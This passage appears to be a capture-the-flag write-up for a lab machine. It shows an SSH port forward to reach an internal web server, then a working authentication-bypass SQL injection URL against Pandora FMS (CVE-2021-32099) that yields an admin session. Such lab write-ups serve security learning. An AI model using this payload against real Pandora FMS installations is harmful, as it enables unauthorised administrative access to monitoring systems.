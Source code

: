 - Once logged in as daniel, checking /var/www shows a second web server that cannot be accessed from the internet
- Set up a port forward to be able to access the machine
```bash
ssh -L 8000:localhost:80  daniel@10.10.11.136
```
- Now should be able to access the server from localhost:8000
![[Pasted image 20220127155746.png]]

## SQLi
Do some research on this version of Pandora FMS found in a config file and see there is an auth bypass SQLi
https://github.com/ibnuuby/CVE-2021-32099
Using this payload:
*[http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271](http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271)*
and go back to beggining page to access the home screen
![[Pasted image 20220420231421.png]]